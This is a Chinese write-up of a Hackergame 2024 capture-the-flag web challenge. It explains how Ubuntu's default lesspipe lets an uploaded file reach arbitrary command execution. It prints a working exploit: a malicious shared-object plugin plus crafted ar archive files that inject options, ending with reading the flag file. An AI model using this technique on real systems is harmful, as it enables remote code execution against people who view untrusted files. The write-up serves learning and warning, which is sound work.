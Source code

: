 # LESS 文件查看器在线版

题解作者：[zzh1996](https://github.com/zzh1996)

出题人、验题人、文案设计等：见 [Hackergame 2024 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：web

- 题目分值：250

> 以下内容包含 AI 辅助创作

「等等，你说 less 是个指令？我还以为它就是‘更少’的意思呢！」小 W 一脸困惑地看着 Linux 用户协会的招新海报。

「对啊，less 是个很方便的工具，可以查看文件内容，显示行号，还能搜索……」Linux 用户协会会长耐心地解释道。

「可是……」小 W 欲言又止，「我电脑上还没装 Linux……」

「别担心！」一个正在摆弄笔记本的同学突然抬起头，「我写了个网站，上传文件就能看到 less 的输出结果。这下大家都能体验 Linux 的美妙了！」

「哇，太棒了！」小 W 开心地说，「这下总算不用被嫌弃了……」

然而会长却若有所思地看着那个热心的同学：「你确定这样……安全吗？」

「安全？」小 W 一头雾水，「不就是看个文件内容嘛，能出什么问题？」

> AI 辅助创作部分结束

**[下载题目源代码](files/LESS.zip)**

[打开/下载题目](http://202.38.93.141:10060/?token={token})

## 出题思路

某一天我看到某同学说 less 命令还可以用来看 PDF，而我只用过 less 阅读纯文本文件。我就研究了一下 less 是怎么做到的，它竟然可以查看各种各样的文件。我发现 less 是用 lesspipe 来处理各种类型的文件，lesspipe 就是一个脚本，根据不同的文件类型决定如何把对应的文件转换为文本，然后管道给 less，其中处理 PDF 格式使用的是 pdftotext 命令。

更有趣的是，我发现 Ubuntu 的 bashrc 中会默认启用 lesspipe（而 Debian 等发行版没有）。我就在想，我们很多人会使用 less 来查看并不信任的文件，比如从网上随便下载的文件或者刚解压出来的文件。如果 lesspipe 可以支持这么多种格式的文件，那这里有很大的攻击面啊。只要有一种文件格式的处理是不安全的，那用 less 随便查看文件就有安全隐患。很多文件格式设计的时候是考虑了打开任意文件的安全性的，但是也有文件格式设计的时候可能会故意允许包含其他文件，或者打开的时候自动执行一些命令，或者读取当前目录的配置文件之类的。

于是我立马上网搜了一下有没有人研究过这个问题，使用「lesspipe RCE」之类的关键词，很容易搜索到一些相关的讨论。

比如说，很容易找到 [这个讨论](https://seclists.org/fulldisclosure/2014/Nov/74)。阅读这个邮件列表的讨论中的各种回复之后，我发现 [这里](https://seclists.org/oss-sec/2014/q4/1027) 提供了一个方案，我自己在最新版的 Ubuntu 上面复现一下，发现就能做到任意命令执行。

为了让大家知道，在 lesspipe 开启的情况下，不应该随便去 less 不信任的文件，所以我把它出成了这道题。

这道题的解题人数并不多。很多人疑惑为什么这题分值并不高，就是因为这道题可以通过搜索来解决，并不需要自己实现漏洞的复杂利用。

当然，我相信这道题不止有一种解法，因为上面这个帖子也有别人找到了其他程序的缺陷。完全有可能只需要一个文件，甚至不需要控制文件名，就可以 getshell。

## 题解

根据上面提到的讨论里面的内容，在跟题目附件提供的 Dockerfile 相同的环境下，执行以下命令：

```bash
printf '#include <stdlib.h>\nvoid onload(void *v) { system("ls / -alh"); }' | \
  gcc -fPIC -shared -o plugin.so -xc -
ar rc ./@.a /dev/null
echo '-s --plugin ./plugin.so ./@.a' > .a
```

然后把生成的 `plugin.so`、`.a`、`@.a` 三个文件上传即可在服务器上执行列目录的命令。这里要注意，上传时选择的文件的顺序很重要，一定要保证 `@.a` 是最后一个。在我的 macOS 的 Chrome 浏览器上面，按照文件大小排序就能保证上传的顺序，其他操作系统我没测试，但是总是可以通过 curl 之类的命令或者写脚本来保证上传顺序。

最后把上面的命令替换成 `cat /flag`，重新上传一次，就可以得到 flag。

## 一些吐槽

1. 这题本来想用今年 Hackergame 新搞的 web 题框架，给每个选手开单独的容器并且允许多次上传文件的，但是没时间搞了，只能用比较扭曲的网站后端 nc 题目容器这种方式。不过也不太影响解题。
2. 如果想让 less 用上 Ubuntu 默认的 `.bashrc`，而不是刻意去加载，就只能搞一个 TTY 来模拟交互了，并且因此要考虑很多额外问题，比如怎么安全传递文件名。
3. 为了让题目环境有 `ar` 而且不去刻意安装，我尝试了半天，发现安装 `python3-pip` 就会自动安装上，看起来就很不刻意。
4. 大家记得不要在开了 lesspipe 的情况下 less 不信任的文件。
